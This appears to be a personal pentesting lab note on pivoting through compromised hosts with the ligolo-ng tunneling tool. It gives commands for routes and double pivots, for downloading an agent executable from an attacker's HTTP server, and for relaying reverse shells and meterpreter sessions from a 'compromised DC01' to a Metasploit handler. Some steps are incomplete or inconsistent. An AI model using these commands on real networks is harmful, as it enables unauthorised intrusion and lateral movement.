 https://github.com/nicocha30/ligolo-ng/releases/tag/v0.8.2
start server and agent
select session
do ifconfig and notice the new internal interface
add new route
example
https://excalidraw.com/

![[Pasted image 20250705163258.png| 700]]
```
agent connect
```
![[Pasted image 20250705164031.png]]
add route to internal network
```
sudo ip route add 10.10.8.0/24 dev ligolo 
```

	KALI ->HOST1
	
add  a new host to tunnel
`create interface`
```
sudo tuntap  add user kali  mode tun  ligolo-double 
sudo ip link set ligolo-pivot1 up
```

add listener on pivot1 to forward traffic to attacker
`forward incoming 11601 to my connected 11601 (attker)`
```
listener_add --addr 0.0.0.0:11601 --to 127.0.0.1:11601 --tcp 
```

`jumphost2 connec to jumphost1`
```
ligolo-agent.exe -connect 10.10.8.9:11601 -ignore-cert
```

select the session
![[Pasted image 20250705165151.png]]
check  the new  NIC
```
ifconfig
```
start the tunnel
```
tunnel start --tun ligolo-double
```
add a route to the third network to make it via the ligolo-double IF
```
sudo ip route add 172.16.3.0/24 dev ligolo-double
```

with session of pivot2 host start the tunnel
```
[Agent PIVOT-SRV02 ]tunnel_start --tun ligolo-double
```

if u get an error run this
```
sudo ip link delete ligolo-double
```

check listeners
```
listener_list
```

# File Transfers

```
[Agent : ubuntu@darkside] » listener_add --addr 0.0.0.0:2000 --to 0.0.0.0:31337

┌──(kali㉿kali)-[/opt/ligolo/windows]
└─$ python3 -m http.server 31337
Serving HTTP on 0.0.0.0 port 31337 (http://0.0.0.0:31337/) ...
```

```
iwr -uri http://pivot1IP:2000/agent.exe -Outfile C:\Users\Public\agent.exe
```
![[Pasted image 20250705170217.png]]

### Reverse Shells and meterpreter
![[Pasted image 20250705170536.png]]
```
LIGOLO pivot1@ubuntu>$ listener_add -addr 0.0.0.0:1111 --to 0.0.0.0:4444
```

```
msfconsole -q 
use multi/handler

set lport 4444 
set lhost 0.0.0.0
```

` on Compromised DC01`
```
C:\>    .\agent.exe -connect 10.10.8.9:1111 -ignore-cert
```
![[Pasted image 20250705171025.png]]
## Moving files, catching reverse shell

moving files or catching reverse shells require setting up listeners on different ports and port forwarding the traffic for each use case
ligolo keeps a list of redirections 
```
listener_list
```
![[Pasted image 20250705171833.png]]
# verify connection 

`test if pivot works with nmap`
if its working you get open 
if its not nmap shows filtered 

## Multiple pivots
![[Pasted image 20250705163258.png| 700]]
`connect to pivot1 from pivot2`
```

```

`test if pivot works with nmap`
if its working you get open 
if its not nmap shows filtered 

`add nic for a newer pivot host`

` add a route to new network via new host`


# a fix  for certificate not found

 You can generate a TLS certificate for Ligolo manually using `openssl`. This is useful when:

 Generate TLS Certificate for Ligolo
`mkdir cers`
`cd certs`
```
openssl req -x509 -newkey rsa:2048 -nodes -keyout key.pem -out cert.pem -days 365 \
-subj "/CN=ligolo"
```

```
$ sudo ./proxy -laddr 0.0.0.0:11601 -certfile certs/cert.pem -keyfile certs/key.pem
              
```


```
create interface
ip tuntap
run proxy
connect to proxy from agent
add route with sudo ip route add ip/cidr <ligolo>
172.16.5.0      0.0.0.0         255.255.255.0   U     0      0        0 ligolo

```